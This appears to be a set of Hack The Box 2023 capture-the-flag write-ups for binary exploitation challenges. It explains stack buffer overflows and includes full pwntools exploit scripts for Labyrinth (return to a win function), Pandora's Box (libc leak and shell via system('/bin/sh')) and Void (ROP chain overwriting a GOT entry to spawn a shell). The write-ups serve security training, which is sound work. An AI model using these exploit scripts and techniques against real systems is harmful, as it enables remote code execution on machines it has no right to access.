

## Initialise Connection

* **Description:** In order to proceed, we need to start with the basics. Start an instance, connect to it via $ nc e.g. nc 127.0.0.1 1337 and send "1" to get the flag.

* **Note:** This challenge had a docker but it might be closed at the time you are reading this. All needed files will be given in the write-ups.

* **Category:** Binary Exploitation/Pwnable

* **Difficulty:** Very Easy

Just a sanity check challenge, do the same thing that is being stated in the description will grant you the flag.



Flag is: **HTB{g3t_r34dy_f0r_s0m3_pwn}**

## Questionnaire

* **Given file:** [Get it here!](https://drive.google.com/file/d/1m_j9ApZJusGOgEvGl-32JRbFyk2fpPkH/view?usp=sharing)

* **Description:** It's time to learn some things about binaries and basic c. Connect to a remote server and answer some questions to get the flag.

* **Note:** This challenge had a docker but it might be closed at the time you are reading this. All needed files will be given in the write-ups.

* **Category:** Binary Exploitation/Pwnable

* **Difficulty:** Very Easy

We are given a binary, a C file and a netcat server to answer some questions.

From the netcat, we are given some informations about the binary that we will going to work with.

```                                                                                               
When compiling C/C++ source code in Linux, an ELF (Executable and Linkable Format) file is created.  
The flags added when compiling can affect the binary in various ways, like the protections.          
Another thing affected can be the architecture and the way it's linked.                              
                                                                                                       
If the system in which the challenge is compiled is x86_64 and no flag is specified,                 
the ELF would be x86-64 / 64-bit. If it's compiled with a flag to indicate the system,               
it can be x86 / 32-bit binary.                                                                       
                                                                                                       
To reduce its size and make debugging more difficult, the binary can be stripped or not stripped.    
                                                                                                       
Dynamic linking:                                                                                     
                                                                                                       
A pointer to the linked file is included in the executable, and the file contents are not included   
at link time. These files are used when the program is run.                                          
                                                                                                       
Static linking:                                                                                      
                                                                                                       
The code for all the routines called by your program becomes part of the executable file.            
                                                                                                       
Stripped:                                                                                            
                                                                                                       
The binary does not contain debugging information.                                                   
                                                                                                       
Not Stripped:                                                                                        
                                                                                                       
The binary contains debugging information.                                                           
                                                                                                       
The most common protections in a binary are:                                                         
                                                                                                       
Canary: A random value that is generated, put on the stack, and checked before that function is      
left again. If the canary value is not correct-has been changed or overwritten, the application will 
immediately stop.                                                                                    
                                                                                                       
NX: Stands for non-executable segments, meaning we cannot write and execute code on the stack.       
                                                                                                       
PIE: Stands for Position Independent Executable, which randomizes the base address of the binary     
as it tells the loader which virtual address it should use.                                          
                                                                                                       
RelRO: Stands for Relocation Read-Only. The headers of the binary are marked as read-only.           
                                                                                                       
Run the 'file' command in the terminal and 'checksec' inside the debugger.                           
                                                                                                       
The output of 'file' command:                                                                        
                                                                                                       
✗ file test                                                                                          
test: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked,                       
interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=5a83587fbda6ad7b1aeee2d59f027a882bf2a429,     
for GNU/Linux 3.2.0, not stripped.                                                                   
                                                                                                       
The output of 'checksec' command:                                                                    
                                                                                                       
gef➤  checksec                                                                                       
Canary                        : ✘                                                                    
NX                            : ✓                                                                    
PIE                           : ✘                                                                    
Fortify                       : ✘                                                                    
RelRO                         : Partial                                                                                                                                                   
```

We are able to answer some first questions using these informations.









After answering these questions correctly, we are provided with more informations about the binary.

```
Great job so far! Now it's time to see some C code and a binary file.                                
                                                                                                       
In the pwn_questionnaire.zip there are two files:                                                    
                                                                                                       
1. test.c                                                                                            
2. test                                                                                              
                                                                                                       
The 'test.c' is the source code and 'test' is the output binary.                                     
                                                                                                       
Let's start by analyzing the code.                                                                   
First of all, let's focus on the '#include <stdio.h>' line.                                          
It includes the 'stdio.h' header file to use some of the standard functions like 'printf()'.         
The same principle applies for the '#include <stdlib.h>' line, for other functions like 'system()'.  
                                                                                                       
Now, let's take a closer look at:                                                                    
                                                                                                       
void main(){                                                                                         
     	vuln();                                                                                          
}                                                                                                    
                                                                                                       
By default, a binary file starts executing from the 'main()' function.                               
                                                                                                       
In this case, 'main()' only calls another function, 'vuln()'.                                        
The function 'vuln()' has 3 lines.                                                                   
                                                                                                       
void vuln(){                                                                                         
      char buffer[0x20] = {0};                                                                         
      fprintf(stdout, "\nEnter payload here: ");                                                       
      fgets(buffer, 0x100, stdin);                                                                     
}                                                                                                    
                                                                                                       
The first line declares a 0x20-byte buffer of characters and fills it with zeros.                    
The second line calls 'fprintf()' to print a message to stdout.                                      
Finally, the third line calls 'fgets()' to read 0x100 bytes from stdin and store them to the         
aformentioned buffer.                                                                                
                                                                                                       
Then, there is a custom 'gg()' function which calls the standard 'system()' function to print the    
flag. This function is never called by default.                                                      
                                                                                                       
void gg(){                                                                                           
      system("cat flag.txt");                                                                          
}                                                                                                    
                                                                                                       
Run the 'man <function_name>' command to see the manual page of a standard function (e.g. man fgets).
```

We are also able to answer some next questions using these informations.






After answering these questions correctly, we are provided with MORE and MORE informations about the binary.

```
Excellent! Now it's time to talk about Buffer Overflows.                                             
                                                                                                       
Buffer Overflow means there is a buffer of characters, integers or any other type of variables,      
and someone inserts into this buffer more bytes than it can store.                                   
                                                                                                       
If the user inserts more bytes than the buffer's size, they will be stored somewhere in the memory   
after the address of the buffer, overwriting important addresses for the flow of the program.        
This, in most cases, will make the program crash.                                                    
                                                                                                       
When a function is called, the program knows where to return because of the 'return address'. If the 
player overwrites this address, they can redirect the flow of the program wherever they want.        
To print a function's address, run 'p <function_name>' inside 'gdb'. (e.g. p main)                   
                                                                                                       
gef➤  p gg                                                                                           
$1 = {<text variable, no debug info>} 0x401176 <gg>                                                  
                                                                                                       
To perform a Buffer Overflow in the simplest way, we take these things into consideration.           
                                                                                                       
1. Canary is disabled so it won't quit after the canary address is overwritten.                      
2. PIE is disabled so the addresses of the binary functions are not randomized and the user knows    
   where to return after overwritting the return address.                                            
3. There is a buffer with N size.                                                                    
4. There is a function that reads to this buffer more than N bytes.                                  
                                                                                                       
Run printf 'A%.0s' {1..30} | ./test to enter 30*"A" into the program.                                
                                                                                                       
Run the program manually with "./test" and insert 30*A, then 39, then 40 and see what happens.       
```

We are able to answer some next questions using these informations.





For the above question, you can try out to see for yourself.



And there is our flag!


Flag is: **HTB{th30ry_bef0r3_4cti0n}**

## Getting Started

* **Given file:** [Get it here!](https://drive.google.com/file/d/1WbbUvsAAZ--CfdrHmOggCGuLa8q_rzuV/view?usp=sharing)

* **Description:** Get ready for the last guided challenge and your first real exploit. It's time to show your hacking skills.

* **Note:** This challenge had a docker but it might be closed at the time you are reading this. All needed files will be given in the write-ups.

* **Category:** Binary Exploitation/Pwnable

* **Difficulty:** Very Easy

We are given a binary, a C file and a netcat server to work with.

Same with the above challenge, netcat tells us to fill in some questions.

```
Stack frame layout

|      .      | <- Higher addresses
|      .      |
|_____________|
|             | <- 64 bytes
| Return addr |
|_____________|
|             | <- 56 bytes
|     RBP     |
|_____________|
|             | <- 48 bytes
|   target    |
|_____________|
|             | <- 40 bytes
|  alignment  |
|_____________|
|             | <- 32 bytes
|  Buffer[31] |
|_____________|
|      .      |
|      .      |
|_____________|
|             |
|  Buffer[0]  |
|_____________| <- Lower addresses


      [Addr]       |      [Value]
-------------------+-------------------
0x00007fff1ca33230 | 0x0000000000000000 <- Start of buffer
0x00007fff1ca33238 | 0x0000000000000000
0x00007fff1ca33240 | 0x0000000000000000
0x00007fff1ca33248 | 0x0000000000000000
0x00007fff1ca33250 | 0x6969696969696969 <- Dummy value for alignment
0x00007fff1ca33258 | 0x00000000deadbeef <- Target to change
0x00007fff1ca33260 | 0x000055cf39fcf800 <- Saved rbp
0x00007fff1ca33268 | 0x00007f62c548ac87 <- Saved return address
0x00007fff1ca33270 | 0x0000000000000001
0x00007fff1ca33278 | 0x00007fff1ca33348


After we insert 4 "A"s, (the hex representation of A is 0x41), the stack layout like this:


      [Addr]       |      [Value]
-------------------+-------------------
0x00007fff1ca33230 | 0x0000000041414141 <- Start of buffer
0x00007fff1ca33238 | 0x0000000000000000
0x00007fff1ca33240 | 0x0000000000000000
0x00007fff1ca33248 | 0x0000000000000000
0x00007fff1ca33250 | 0x6969696969696969 <- Dummy value for alignment
0x00007fff1ca33258 | 0x00000000deadbeef <- Target to change
0x00007fff1ca33260 | 0x000055cf39fcf800 <- Saved rbp
0x00007fff1ca33268 | 0x00007f62c548ac87 <- Saved return address
0x00007fff1ca33270 | 0x0000000000000001
0x00007fff1ca33278 | 0x00007fff1ca33348


After we insert 4 "B"s, (the hex representation of B is 0x42), the stack layout looks like this:


      [Addr]       |      [Value]
-------------------+-------------------
0x00007fff1ca33230 | 0x4242424241414141 <- Start of buffer
0x00007fff1ca33238 | 0x0000000000000000
0x00007fff1ca33240 | 0x0000000000000000
0x00007fff1ca33248 | 0x0000000000000000
0x00007fff1ca33250 | 0x6969696969696969 <- Dummy value for alignment
0x00007fff1ca33258 | 0x00000000deadbeef <- Target to change
0x00007fff1ca33260 | 0x000055cf39fcf800 <- Saved rbp
0x00007fff1ca33268 | 0x00007f62c548ac87 <- Saved return address
0x00007fff1ca33270 | 0x0000000000000001
0x00007fff1ca33278 | 0x00007fff1ca33348
```

From the netcat, we are provided with these informations.

We can answer the question by looking at the informations given, where we have to overwrite the alignment address and the "target's" 0xdeadbeef value. 

From the stack layout given above, we can see that to fully overwrite, we need at least 40 bytes input (assume that we use Linux terminal because there will be a \x00 overwrite at the right of the "target's" 0xdeadbeef value) which will look like this.



I don't know why it prints out **"[-] You failed!"** though...

Flag is: **HTB{b0f_s33m5_3z_r1ght?}** 

## Labyrinth

* **Given file:** [Get it here!](https://github.com/padolex/misc/blob/main/pwn_labyrinth.zip)

* **Description:** You find yourself trapped in a mysterious labyrinth, with only one chance to escape. Choose the correct door wisely, for the wrong choice could have deadly consequences.

* **Note:** This challenge had a docker but it might be closed at the time you are reading this. All needed files will be given in the write-ups.

* **Category:** Binary Exploitation/Pwnable

* **Difficulty:** Easy

Examine the binary with command `checksec`
```zsh
[*] '~/pwn_labyrinth/challenge/labyrinth'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./glibc/'
```
Use IDA Pro to analyze, we obtain the following pseudocode for function `escape_plan`
```c
int escape_plan()
{
  char buf; // [rsp+Bh] [rbp-5h] BYREF
  int fd; // [rsp+Ch] [rbp-4h]

  putchar(10);
  fwrite(&unk_402018, 1uLL, 0x1F0uLL, _bss_start);
  fprintf(
    _bss_start,
    "\n%sCongratulations on escaping! Here is a sacred spell to help you continue your journey: %s\n",
    "\x1B[1;32m",
    "\x1B[0m");
  fd = open("./flag.txt", 0);
  if ( fd < 0 )
  {
    perror("\nError opening flag.txt, please contact an Administrator.\n\n");
    exit(1);
  }
  while ( read(fd, &buf, 1uLL) > 0 )
    fputc(buf, _bss_start);
  return close(fd);
}
```
Our goal is to be able to execute this function, now examine the `main` function
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[8]; // [rsp+0h] [rbp-30h] BYREF
  __int64 v5; // [rsp+8h] [rbp-28h]
  __int64 v6; // [rsp+10h] [rbp-20h]
  __int64 v7; // [rsp+18h] [rbp-18h]
  char *s; // [rsp+20h] [rbp-10h]
  unsigned __int64 i; // [rsp+28h] [rbp-8h]

  setup(argc, argv, envp);
  banner();
  *(_QWORD *)v4 = 0LL;
  v5 = 0LL;
  v6 = 0LL;
  v7 = 0LL;
  fwrite("\nSelect door: \n\n", 1uLL, 0x10uLL, _bss_start);
  for ( i = 1LL; i <= 0x64; ++i )
  {
    if ( i > 9 )
    {
      if ( i > 0x63 )
        fprintf(_bss_start, "Door: %d ", i);
      else
        fprintf(_bss_start, "Door: 0%d ", i);
    }
    else
    {
      fprintf(_bss_start, "Door: 00%d ", i);
    }
    if ( !(i % 0xA) && i )
      putchar(10);
  }
  fwrite("\n>> ", 1uLL, 4uLL, _bss_start);
  s = (char *)malloc(0x10uLL);
  fgets(s, 5, stdin);
  if ( !strncmp(s, "69", 2uLL) || !strncmp(s, "069", 3uLL) )
  {
    fwrite(
      "\n"
      "You are heading to open the door but you suddenly see something on the wall:\n"
      "\n"
      "\"Fly like a bird and be free!\"\n"
      "\n"
      "Would you like to change the door you chose?\n"
      "\n"
      ">> ",
      1uLL,
      0xA0uLL,
      _bss_start);
    fgets(v4, 68, stdin);
  }
  fprintf(_bss_start, "\n%s[-] YOU FAILED TO ESCAPE!\n\n", "\x1B[1;31m");
  return 0;
}
```
There is a buffer overflow associate with this line of code `fgets(v4, 68, stdin);` because `v4` was declared `char v4[8];` but we are allowed to input up to 68 bytes and we need to input '69' at first. Our attack plan will be overwrite the return address with the address of function `escape_plan`. IDA also provides us stack offset of variable `v4` which is `[rbp-30h]`, so we can calculate the correct padding which is equal `0x30 + 8 = 0x38 = 56`. The stack frame layout will be
```
|_______________|
|               |
|   "A"*56      |
|               |
|_______________|
|               |
|ret instruction| # padding ret because of movaps instruction
|_______________|
|               | 
|  escape_plan  |
|_______________|
|      .        |
```
We can use `ROPgadget` to find the address of instruction `ret`
```zsh
$ ROPgadget --binary labyrinth | grep "ret"
0x0000000000401016 : ret
```
We yield the final exploit
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./labyrinth")

context.binary = exe

p = remote("167.71.143.44",31869)
# p = process('./labyrinth')

p.recvuntil(b'>> ')
p.sendline(b'69')

p.recvuntil(b'>> ')
ret = 0x0000000000401016
payload = b'A'*56 + p64(ret)+ p64(exe.sym['escape_plan'])
p.sendline(payload)
p.interactive()
```
Flag is: **HTB{3sc4p3_fr0m_4b0v3}** 

## Pandora's Box

* **Given file:** [Get it here!](https://drive.google.com/drive/folders/1tkjLHsRXx8WdNrzWexbeDfcS3kFkCc-U?usp=sharing)

* **Description:** You stumbled upon one of Pandora’s mythical boxes. Would you be curious enough to open it and see what’s inside, or would you opt to give it to your team for analysis?

* **Note:** This challenge had a docker but it might be closed at the time you are reading this. All needed files will be given in the write-ups.

* **Category:** Binary Exploitation/Pwnable

* **Difficulty:** Easy

The challenge greeted us with a binary following a libc.so.6 and a ld-linux-x86-64.so.2.

Decompile the binary using [IDA Pro](https://hex-rays.com/ida-pro/), we easily found the vulnerability lied within the *box()* fucntion.

```c
size_t box()
{
  char s[8]; // [rsp+0h] [rbp-30h] BYREF
  __int64 v2; // [rsp+8h] [rbp-28h]
  __int64 v3; // [rsp+10h] [rbp-20h]
  __int64 v4; // [rsp+18h] [rbp-18h]
  unsigned __int64 num; // [rsp+28h] [rbp-8h]

  *(_QWORD *)s = 0LL;
  v2 = 0LL;
  v3 = 0LL;
  v4 = 0LL;
  fwrite(
    "This is one of Pandora's mythical boxes!\n"
    "\n"
    "Will you open it or Return it to the Library for analysis?\n"
    "\n"
    "1. Open.\n"
    "2. Return.\n"
    "\n"
    ">> ",
    1uLL,
    0x7EuLL,
    _bss_start);
  num = read_num();
  if ( num != 2 )
  {
    fprintf(_bss_start, "%s\nWHAT HAVE YOU DONE?! WE ARE DOOMED!\n\n", "\x1B[1;31m");
    exit(1312);
  }
  fwrite("\nInsert location of the library: ", 1uLL, 0x21uLL, _bss_start);
  fgets(s, 256, stdin);
  return fwrite(
           "\nWe will deliver the mythical box to the Library for analysis, thank you!\n\n",
           1uLL,
           75uLL,
           _bss_start);
}
```

A classic buffer overflow exploitation. Howerver, this time there was no win function to print out the flag so we had to get a shell using ret2libc technique. The binary has no Canary nor PIE enable so we didn't need to leak anything other than the libc address.

Using gdb we knew that the offset from our input buffer to the return address of *box()* is 56 bytes long.

Our 1st ROP chain would be to leak the address of the *puts()* function from the GOT table using the *puts()* function itself.

The 2nd ROP chain was used to call the *system()* function from the libc with the argument string being "/bin/sh". I didn't use [one_gadget](https://github.com/david942j/one_gadget) since none of the provided gadgets worked.

The other gadgets such as *pop rdi ; ret* you can get them using [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) or [Ropper](https://github.com/sashs/Ropper)

Here's the exploit script.

```py
from pwn import *

exe = ELF('./pb')
libc = ELF('./libc.so.6')
io = remote('68.183.37.122', 30673)
#io = exe.process()
#gdb.attach(io, api=True)
# Gadgets:
pad = b'i'*56
pop_rdi = 0x000000000040142b
binsh = 0x1d8698
ret = 0x00000000004013a5

# 1st chain leak libc
io.recvuntil(b'\n>> ')
io.sendline(b'2')
io.recvuntil(b'library: ')
payload = pad + p64(pop_rdi) + p64(exe.got['puts']) + p64(exe.plt['puts']) + p64(exe.sym['main'])
io.sendline(payload)
io.recvuntil(b'thank you!\n\n')
leak_puts = u64(io.recvline(keepends=False).ljust(8, b'\x00'))
libc.address = leak_puts - libc.sym['puts']

# 2nd chain get shell
io.recvuntil(b'\n>> ')
io.sendline(b'2')
io.recvuntil(b'library: ')
print(hex(libc.sym['system']))
payload = pad + p64(ret) + p64(pop_rdi) + p64(libc.address + binsh) + p64(libc.sym['system'])
io.sendline(payload)

io.interactive()
```



Flag is: **HTB{r3turn_2_P4nd0r4?!}**

## Void

* **Given file:** [Get it here!](https://github.com/padolex/misc/blob/main/pwn_void.zip)

* **Description:** The room goes dark and all you can see is a damaged terminal. Hack into it to restore the power and find your way out.

* **Note:** This challenge had a docker but it might be closed at the time you are reading this. All needed files will be given in the write-ups.

* **Category:** Binary Exploitation/Pwnable

* **Difficulty:** Medium

The program is simple, buffer overflow occurs in function `vuln`, here is the pseudocode of `vuln`
```c
ssize_t vuln()
{
  char buf[64]; // [rsp+0h] [rbp-40h] BYREF

  return read(0, buf, 0xC8uLL);
}
```
I found a similar write-up for this challenge [here](https://nandynarwhals.org/cyberpeace-2022-crysys/). The main idea is to ultilize ROP gadgets to spawn a shell, there is an interesting gadget allows us to modify memory by adding a 32 bit value to that memory, let call this `add_gadget`.
```bash
$ ROPgadget --binary void | grep "ebx"
0x0000000000401108 : add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; ret
```
Our attack plan
- Stage 1 store string "/bin/sh" in `.bss` section. 
- Stage 2 change `read@GOT` to `system@GOT` by adding an offset between `read@GOT` and `system@GOT`.
- Stage 3 call `read@plt` with `/bin/sh`.
  
Our used gadgets in exploit script
```
rdi = 0x00000000004011bb : pop rdi ; ret
rsi_r15 = 0x00000000004011b9 : pop rsi ; pop r15 ; ret
add_gadget = 0x0000000000401108 : add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; ret
gadget = 0x00000000004011b2 : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret

```
Here is the exploit script
```python
from pwn import *

context.arch = 'amd64'

p = remote('138.68.162.218', 30569)
# p = process('./void')

libc_elf = ELF("./libc.so.6")
elf = ELF("./void")

read_got = elf.got['read']
libc_system = libc_elf.symbols['system']
libc_read = libc_elf.symbols['read']

system_offset = libc_system - libc_read
log.info('system offset in libc from read: {}'.format(hex(system_offset)))
system_offset = system_offset & 0xffffffffffffffff
log.info('Twos complement of this offset: {}'.format(hex(system_offset)))

binsh_addr = elf.bss() + 0x10
log.info('/bin/sh string Address: {}'.format(hex(binsh_addr)))

rsi_r15 = 0x00000000004011b9
gadget = 0x004011b2
add_gadget = 0x0000000000401108
rdi = 0x00000000004011bb
ret = 0x0000000000401016

# stage 1 store string "/bin/sh" in .bss section
payload = b'A'*0x48
payload += p64(rsi_r15) + p64(binsh_addr) + p64(0)
payload += p64(elf.plt['read'])
# Stage 2 change read@GOT to system@GOT
payload += p64(gadget)
payload += p64(system_offset) + p64(elf.got['read'] + 0x3d) + p64(0)*4
payload += p64(add_gadget)
# call read("/bin/sh") = system("/bin/sh")
payload += p64(rdi) + p64(binsh_addr)
payload += p64(ret) # padding ret 
payload += p64(elf.plt['read'])

p.send(payload+b'/bin/sh\x00')

p.interactive()

```
Flag is: **HTB{r3s0lv3_th3_d4rkn355}**

## Original Posts

- [From FazeCT](https://fazect.github.io/htb2023/)
